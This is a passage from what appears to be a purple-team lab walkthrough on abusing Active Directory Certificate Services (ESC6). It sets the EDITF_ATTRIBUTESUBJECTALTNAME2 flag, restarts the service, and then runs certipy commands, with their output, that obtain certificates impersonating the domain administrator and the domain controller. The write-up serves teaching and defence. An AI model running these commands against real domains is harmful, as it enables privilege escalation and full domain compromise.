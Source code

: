 ```
    EDITF_ENABLEAKIKEYID -- 100 (256)
    EDITF_ENABLEDEFAULTSMIME -- 10000 (65536)
    EDITF_ATTRIBUTESUBJECTALTNAME2 -- 40000 (262144)
    EDITF_ENABLECHASECLIENTDC -- 100000 (1048576)
CertUtil: -setreg command completed successfully.
The CertSvc service may need to be restarted for changes to take effect.
```

We then need to restart the service : 
We need to restart the service :
```
C:\Users\Administrator>net stop certsvc
The Active Directory Certificate Services service is stopping.
The Active Directory Certificate Services service was stopped successfully.

C:\Users\Administrator>net start certsvc
The Active Directory Certificate Services service is starting.
The Active Directory Certificate Services service was started successfully.
```

## 7.2 Exploitation

We can either target a user or a computer account. 

### Request a certificate by specifying an user account in the SAN
```
└─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -template "User" -upn "administrator@purpleteam.local" 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 37
[*] Successfully requested certificate##
[*] Got certificate with UPN 'administrator@purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Request a certificate by specifying a computer account in the SAN
```
─$ certipy req -u attacker@purpleteam.local -p "1attacker*" -dc-ip 172.16.0.1 -ca 'DC01-CA' -template "User" -dns "dc01.purpleteam.local"          
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 38
[*] Successfully requested certificate
[*] Got certificate with DNS Host Name 'dc01.purpleteam.local'
[*] Certificate object SID is 'S-1-5-21-2903762927-2752062241-1101764633-1114'
[*] Saving certificate and private key to 'dc01.pfx'
[*] Wrote certificate and private key to 'dc01.pfx'
```
